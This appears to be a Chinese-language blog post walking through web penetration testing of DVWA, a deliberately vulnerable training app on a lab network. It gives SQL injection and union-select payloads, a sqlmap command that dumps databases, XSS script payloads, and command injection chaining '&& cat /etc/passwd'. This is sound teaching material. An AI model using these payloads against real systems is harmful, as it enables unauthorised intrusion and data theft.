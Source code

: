 ```yaml
---
date: 2019-09-15 19:45:40
layout: post
title: WEB渗透测试--DVWA
subtitle:
description: web渗透测试
image:
optimized_image: src/img/s44.jpg
category: web基础
tags:
  - web
  - DVWA
author: thiagorossener
---
```

##### 测试环境
测试平台环境:<br>
靶机：windows7 64bit<br>
攻击机：Linux Ubuntu 14 +windows 7<br>
连接拓扑图如下：<br>
<img src="/src/img/webs1.jpg" >

##### SQL注入
URI 中将 id 参数赋值为：‘' or 1=1--'’
服务端执行id变量的值以后导致SQL语句逻辑改变，直接在页面上回显示了所有的id。
如下：
<img  src="/src/img/s2.png" >
再将 URI 中 id 参数赋值为：‘1' and 1=2 union select version(),database() -- ' ’
回显结果中显示了 mysql 数据库的版本号和数据库名。
如下：
<img src="/src/img/s3.png" >
确定了页面参数存在注入点后，我们使用 sqlmap 进行自动化注入攻击。拿到所有的数
据库。<br>
测试代码：
sqlmap -u "http://10.74.53.107/vulnerabilities/sqli/?id=1&Submit=Submit#" -p "id" --cookie "PHPSESSID=t3k9knfgfc90dgklq5elcc3c33; security=low" --dbs --dbms mysql<br>
如下图：
<img  src="/src/img/s4.png" >

##### XSS
反射型 XSS<br>
测试代码：<br>
（'><script>alert('欢迎来到web渗透')</script><br>)
http://10.74.53.107/vulnerabilities/xss_r/?name=%27%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E#
如下图：<br>
<img  src="/src/img/s5.png" >
存储型 XSS<br>
测试代码如下：<br>
<SCRIPT>alert(‘欢迎来到web渗透’)</SCRIPT>
如下图：
<img  src="/src/img/s6.png" >
<img  src="/src/img/s7.png" >
##### 命令执行
使用&&连接符传递附带命令并执行<br>
测试代码如：<br>
127.0.0.1 && ls<br>
127.0.0.1 && ifconfig<br>
127.0.0.1 && cat /etc/passwd<br>
代码执行了“ping 127.0.0.1”的同时也执行了&&之后的”ls”,”cat /etc/passwd”等指令。<br>
如下图：
<img  src="/src/img/s8.png" >
127.0.0.1 && cat /etc/passwd
<img  src="/src/img/s9.png" >
